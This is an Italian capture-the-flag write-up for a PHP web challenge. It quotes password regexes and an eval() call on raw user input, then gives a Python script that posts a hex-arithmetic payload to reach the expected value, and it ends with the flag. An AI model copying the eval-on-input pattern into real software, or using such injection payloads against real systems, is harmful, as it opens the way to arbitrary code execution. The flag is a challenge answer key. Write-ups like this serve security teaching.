 # Intrusione Virtuale

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [http://www.beginner.havce.it:8080](http://www.beginner.havce.it:8080).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
Come affermato nella descrizione, il primo obiettivo era superare le REGEX.


La prima REGEX controlla se la password contiene caratteri non compresi nella funzione `preg_match`, per esempio lo spazio ( ).
```php
if (!preg_match("/^[a-zA-Z0-9_\-'(),]+$/", $inp, $matches))
```

La seconda REGEX:
- Controlla se la stringa contiene almeno un numero.
- Controlla se la stringa contiene almeno una lettera.
- Controlla se la stringa contiene almeno uno degli underscore ( _ ) o dei trattini ( - ).
```php
if (!(preg_match("/[0-9]/", $inp, $matches) && preg_match("/[a-zA-Z]/", $inp, $matches) && preg_match("/[_-]/", $inp, $matches)))
```

La terza REGEX controlla se la password contiene il numero "1".
```php
if (preg_match("/[1]/", $inp, $matches))
```


Arrivati a questo punto dobbiamo porci un altro obiettivo, quello di superare l'ultimo controllo.
```php
if ($inp != "192014812")
```

Ovviamente visto che la stringa contiene il numero "1", la password "192014812" non è valida.
Osservando il codice però, possiamo osservare che prima di `strcmp` viene eseguita la funzione [`eval`](https://www.php.net/manual/en/function.eval.php).
```php
eval("\$input=$inp;");
```
Grazie al funzionamento interno della funzione `eval`, possiamo usarla a nostro favore, passando come parametro "192014812" codificato, per esempio in esadecimale.
Ricordiamoci che non possiamo passare direttamente il numero codificato, ma possiamo per esempio passare `192014822 - 10`.

```py
# Author: @benjamin

import requests

url = "http://www.beginner.havce.it:8080"

# 192145884 --> numero più grande --> hex(192145884) = 0xb73e9dc
# 192014812 --> numero
# 131072    --> differenza --> hex(131072) = 0x20000

payload = {
    "password": "0xb73e9dc-0x20000"
}

r = requests.post(url, data=payload)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
